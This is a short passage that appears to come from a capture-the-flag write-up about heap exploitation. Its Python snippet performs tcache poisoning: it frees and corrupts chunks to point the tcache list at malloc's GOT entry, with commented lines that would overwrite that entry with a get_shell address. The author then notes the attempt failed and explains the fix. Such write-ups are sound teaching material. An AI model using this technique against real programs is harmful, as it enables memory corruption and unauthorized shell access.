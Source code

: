 ```python
Tcache1 = create_heap(0x28, b'Tcache1')
Tcache2 = create_heap(0x28, b'Tcache2')
delete_heap(Tcache1)
delete_heap(Tcache2)

modify_heap(Tcache1, 0xf , b'a' * 9)

delete_heap(Tcache1)

create_heap(0x28, pack(elf.got['malloc']))
#create_heap(0x28, b'garbage1')
#create_heap(0x28, b'garbage2')
#create_heap(0x28, pack(elf.sym['get_shell']))
```

This is my first payload; however, it is not successfull

I see that 

![trigger](images/trigger_tcache.png)

It has two tcachebins, although it recognizes the pointer to malloc got.

Thus, I link tcache2 to malloc got instead of tcache1.(trigger number of tcachebins)

